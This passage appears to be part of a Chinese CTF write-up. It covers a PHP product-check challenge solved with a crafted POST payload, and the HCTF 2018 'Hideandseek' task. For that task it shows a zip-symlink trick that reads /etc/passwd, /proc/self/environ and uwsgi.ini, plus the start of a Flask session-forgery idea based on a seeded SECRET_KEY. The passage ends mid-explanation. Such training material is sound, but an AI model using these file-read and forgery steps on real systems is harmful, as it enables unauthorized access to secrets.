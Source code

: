 所以只需要让 `check_name_secret` 条件为真即可，而且输出的时候只判断的name的值

```php
function check_name_secret($name, $secret) {
  global $db;
  $valid = false;
  $statement = $db->prepare(
    "SELECT name FROM products WHERE name = ? AND secret = ?"
  );
  check_errors($statement);
  $statement->bind_param("ss", $name, $secret);
  check_errors($statement->execute());
  $res = $statement->get_result();
  check_errors($res);
  if ($res->fetch_assoc() !== null) {
    $valid = true;
  }
  $statement->close();
  return $valid;
}
```

而这个函数为真的条件很简单，就是当表里存在这个用户并且匹配secret

综上 payload

```
name=facebook+''*64+11
&secret=a
&description=666
```

## [HCTF 2018]Hideandseek

* flask session 伪造

随便一个用户就可以直接登录，存在文件上传，仅限zip文件

猜测软连接，构造

```
ln -s /etc/passwd passwd
zip -y passwd.zip passwd
```

任意文件读取

读取 `/proc/self/environ`

获取环境变量信息，发现使用了 uWSGI服务器,读取配置文件 `/app/uwsgi.ini`

回显main.py

```
app.config['SECRET_KEY'] = str(random.random()*100)
```

SECRET_KEY是随机数,而随机数的产生与种子有关,只要种子相同,那么随机数也相同
